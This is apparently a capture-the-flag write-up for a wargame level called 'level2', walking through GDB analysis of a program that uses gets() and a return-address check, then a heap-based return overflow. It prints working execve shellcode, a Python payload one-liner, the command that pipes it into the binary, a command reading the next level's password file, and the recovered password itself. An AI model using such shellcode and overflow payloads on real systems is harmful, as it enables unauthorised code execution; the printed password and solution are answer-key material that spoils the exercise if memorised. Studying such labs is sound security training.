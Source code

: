 # Level2 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the `main` function**:
   Using the command `disas`, we found that the program uses two functions :
   - p : flushes stdout, reads user input using gets(), chek for dangerous input, handle safe input, and if they are, prints it using puts() and duplicates it using strdup()
   - main : calls the function `p` at 0x8048d4

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
   ./level2
   ```
    The program is waiting for the user to insert an input, prints it back and then exits properly.

2. **Trying to overflow the RET value**
    As it calls the function gets() which is vulnerable to buffer overflow attack, we can see that there is now a check to make sure we do not overwrite the return address.

    This avoids having a shellcode stored on the stack or in environment variable.

    The function p() uses the strdup(), which uses malloc() which stores the memory in the heap. This will be our entrypoint.

    adter launching ltrace ./level2, we can see that malloc always return to address 0x804a008.

    We'll try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.

    we will use this shellcode : 
    ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80```

    Since its 21 bytes long, we'll have to pad our string with arbitrary data to provoke the overflow.

    Finally, as in the previous level, we will create an exploit to: 
    ```python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit2```

    then we will launch the command ```cat /tmp/exploit2 - | ./level2```

    we are now in level3, as we can notice with the ```whoami``` command.
    Now, we just have to launch ```cat /home/user/level3/.pass```

## Moving to level3

1. **Swith User to level3**:
    Run ```su level3```

2. **Authenticate with the Password**:
    We used the password we found.
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02